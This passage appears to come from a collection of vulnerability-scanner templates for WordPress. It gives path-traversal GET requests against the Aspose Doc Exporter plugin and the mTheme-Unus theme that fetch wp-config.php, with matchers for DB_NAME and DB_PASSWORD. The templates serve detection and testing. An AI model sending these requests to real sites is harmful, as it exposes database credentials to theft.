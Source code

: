 ### URL

- {{BaseURL}}/wp-content/plugins/aspose-doc-exporter/aspose_doc_exporter_download.php?file=../../../wp-config.php

### Matchers

**Type - word**

- words
  1. DB_NAME
  2. DB_PASSWORD
- part - body
- condition - and

**Type - status**

- status
  1. 200

---

# WordPress mTheme-Unus Theme - Local File Inclusion

## Description

- WordPress mTheme-Unus Theme is vulnerable to local file inclusion via css.php.
- severity - high
- tags - wpscan,packetstorm,wordpress,wp-theme,lfi,mtheme

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/themes/mTheme-Unus/css/css.php?files=../../../../wp-config.php

### Matchers

**Type - word**

- part - body
- words
  1. DB_NAME
  2. DB_PASSWORD
- condition - and

**Type - status**

- status
  1. 200

---